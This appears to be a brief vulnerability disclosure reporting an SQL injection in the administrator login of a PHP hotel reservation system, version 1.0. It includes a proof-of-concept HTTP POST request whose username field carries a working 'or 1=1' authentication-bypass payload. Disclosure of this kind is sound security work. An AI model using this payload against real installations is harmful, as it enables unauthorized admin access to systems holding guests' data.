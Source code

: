 ## Online Hotel Reservation System has an SQL injection vulnerability

## Affected version: 
Online Hotel Reservation System - 1.0

## Software:
https://code-projects.org/simple-online-hotel-reservation-system-in-php-with-source-code/

## Vulnerability File:
/HOR/admin/

## Description:
The administrator login interface of this online hotel system has an SQL injection vulnerability, allowing attackers to log in with a universal password by constructing specific statements.

Status: Moderate

POC
```
POST /HOR/admin/ HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/HOR/admin/
Cookie: PHPSESSID=db5no8dvip725j5p64esp3qbge
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=admin%27+or+1%3D1--+&password=s&login=
```

![image](https://github.com/foreverfeifei/HOR-CVE/blob/main/Pasted%20image%2020251021144102.png)





